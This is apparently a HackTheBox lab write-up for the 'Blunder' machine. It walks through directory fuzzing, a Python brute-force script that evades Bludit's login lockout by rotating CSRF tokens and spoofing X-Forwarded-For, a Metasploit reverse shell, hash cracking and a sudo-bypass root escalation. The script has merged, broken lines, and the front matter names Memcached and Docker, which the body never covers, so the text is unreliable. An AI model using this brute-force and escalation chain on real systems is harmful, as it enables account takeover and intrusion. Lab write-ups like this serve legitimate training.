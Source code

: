 ```yaml
---
date: 2020-10-17 12:26:40
layout: post
title: HackTheBox - Blunder
description: Medium Linux Machine containing Memcached Server and Docker Privilege Escalation
image: https://miro.medium.com/max/700/0*QbMsDQ0H57VSiLMA
optimized_image: https://miro.medium.com/max/700/0*QbMsDQ0H57VSiLMA
category: HackTheBox
tags:
  - docker
  - memcache
  - linux
author: anishka
paginate: true
---
```


Hello Guys , I am <a href="https://twitter.com/_kNgF">Faisal Husaini</a>. My username on HTB is <a href="https://www.hackthebox.eu/home/users/profile/7404">anishka</a>. Also join me on discord.

The IP of this box is **10.10.10.191**

## Port Scan

Running nmap full port scan on it , we get

![placeholder](https://miro.medium.com/max/670/1*IBCorClbNwU_02IHegdnVA.png "Large example image")

Since we have only 1 Open Port which is the web, we directly move onto hunting that part

## Web

Checking the IP on the browser

![placeholder](https://miro.medium.com/max/1000/1*PQ_kW1sIMgTRpfO4oWYXTQ.png "Large example image")

We see its a blog page

Running gobuster for directory fuzzing along with 3 extensions of *php, html and txt*

![placeholder](https://miro.medium.com/max/414/1*rinb49_jemGa-csTHe5K7w.png "Large example image")

We get few results , looking onto the ***/admin*** directory

![placeholder](https://miro.medium.com/max/700/1*jDmG1GJ4TSoaMVKIN3vhIg.png "Large example image")

It redirects to a Bludit login page , trying default credentials gave no luck

Looking onto the ***todo.txt*** file

![placeholder](https://miro.medium.com/max/700/1*U2mlniDfgT2wWo3dCVRLfA.png "Large example image")

I has some todo list , on the last one we can see a potential user ***fergus***

Trying to bruteforce the login using ***ffuf*** or ***hydra*** wont give us success as the login page had bruteforce protection using CSRF Tokens for each login, so we can create a python script and use it for bruteforcing where it grabs new tokens each request

Also ***rockyou.txt*** wordlist file doesnt work here, so I just used cewl on the main blog page as this was something which I did before on similar kind of CTF

```
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = []list = open("wordlist.txt", "r")

for i in list:
    wordlist.append(i.strip())

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            breaklist.close()
```
Running the following script

![placeholder](https://miro.medium.com/max/532/1*mM7u0zcg7bnYxxiYirw5bA.png "Large example image")

We got the password cracked as ***RolandDeschain***

Trying the creds on the login page

![placeholder](https://miro.medium.com/max/1000/1*kKsKQtCQirz0SYO_CD3SIA.png "Large example image")

We got logged in successfully to the dashboard of ***Bludit***

![placeholder](https://miro.medium.com/max/700/1*kNTpXiNYlyDRhWO08z0Z_g.png "Large example image")

We see an exploit available with **Metasploit** , so we directly spawn msf and get to the exploit and set our options

![placeholder](https://miro.medium.com/max/1000/1*8zNBZR7ZFBSCypk7coh2Wg.png "Large example image")

All set ready for exploiting

![placeholder](https://miro.medium.com/max/1000/1*fr_Z4ZPGP4nkIF2EecrhiQ.png "Large example image")

We got meterpreter , we spawn shell and get a proper reverse shell

![placeholder](https://miro.medium.com/max/700/1*WO6aUDJMYnrTmgVHpsywFA.png "Large example image")

We see that the user flag is on user ***Hugo***’s folder and we cant access the flag with the current user ***www-data***

![placeholder](https://miro.medium.com/max/700/1*_1IeJ991trLZ0mVsBfbmHg.png "Large example image")

Digging into the web directories, we find some databases php files which contains usernames and password hash

![placeholder](https://miro.medium.com/max/700/1*eKmBFqR6SLJ21MSPk-ID6g.png "Large example image")

We got the password hash for user ***Hugo*** which is in **SHA1** format if you just do ***hashid*** on it you would know that

![placeholder](https://miro.medium.com/max/700/1*FN4erihVQKAaJbG96GCO9w.png "Large example image")

We cracked the hash using online decryptor and now we switch the user

![placeholder](https://miro.medium.com/max/700/1*G2qcyM32UyiUBFxYPn_Gug.png "Large example image")

We are now user ***hugo*** and now moving further to get the user flag

![placeholder](https://miro.medium.com/max/700/1*J_GtebnYFuFtNlho6r6VyQ.png "Large example image")

## Privilege Escalation

Running the ***sudo -l*** command

![placeholder](https://miro.medium.com/max/700/0*6Rrq3COSzd7iGJ8k.png "Large example image")

We see a weird sudo configuration here , which means we cant run sudo on **/bin/bash** as root with user hugo which we confirm down below

![placeholder](https://miro.medium.com/max/700/1*LOqrU-cnNpLtuS66RKZgIw.png "Large example image")

After doing google searches about the configuration, I see that there is a bypass for this

![placeholder](https://miro.medium.com/max/542/1*s6lzjmsv3iEerAu5OwrzGw.png "Large example image")

We got root! Now time to get the root flag

![placeholder](https://miro.medium.com/max/700/1*ztl3YlHKPUY2KAUoHx_wEA.png "Large example image")



# References

<a href="https://www.exploit-db.com/exploits/47502">sudo 1.8.27 - Security Bypass</a>


<img src="http://www.hackthebox.eu/badge/image/7404" alt="Hack The Box"> 










